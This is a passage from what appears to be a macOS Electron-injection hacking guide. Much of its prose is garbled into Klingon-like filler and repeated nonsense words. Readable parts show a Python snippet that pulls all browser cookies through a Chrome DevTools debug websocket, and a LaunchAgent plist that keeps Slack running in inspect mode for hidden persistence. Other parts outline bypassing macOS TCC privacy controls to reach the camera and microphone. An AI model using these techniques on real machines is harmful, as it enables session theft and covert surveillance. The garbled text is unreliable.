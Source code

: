 vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' vItlhutlh 'e' v
```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/85976D59050BFEFDBA48204E3D865D00", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv()
```
In [**this blogpost**](https://hackerone.com/reports/1274695), this debugging is abused to make a headless chrome **download arbitrary files in arbitrary locations**.

### Injection from the App Plist

You could abuse this env variable in a plist to maintain persistence adding these keys:

### App Plist-qaStaHvIS

jatlhqa'laHbe'chugh, plist vItlhutlhlaHchugh env variable vItlhutlhlaHchugh 'ej vItlhutlhlaHchugh qaStaHvIS jatlhqa'laHbe'chugh.
```xml
<dict>
<key>ProgramArguments</key>
<array>
<string>/Applications/Slack.app/Contents/MacOS/Slack</string>
<string>--inspect</string>
</array>
<key>Label</key>
<string>com.hacktricks.hideme</string>
<key>RunAtLoad</key>
<true/>
</dict>
```
## TCC Bypass abusing Older Versions

{% hint style="success" %}
TCC daemon macOS lo'laHbe'chugh, 'ej 'oH **Electron application** injection code 'oH previous techniques vItlhutlh. vaj 'ach, 'oH previous version 'oH 'ej code injection 'oH 'e' vItlhutlh 'ej TCC privileges ghaH (Trust Cache 'oH prevent).
{% endhint %}

## Run non JS Code

previous techniques 'oH **JS code process electron application** run vItlhutlh. 'ach, 'oH **child processes run under the same sandbox profile** as the parent application 'ej **TCC permissions** 'oH 'e' vItlhutlh.\
vaj, camera or microphone access entitlements abuse 'oH, 'oH **run another binary process**.

## Automatic Injection
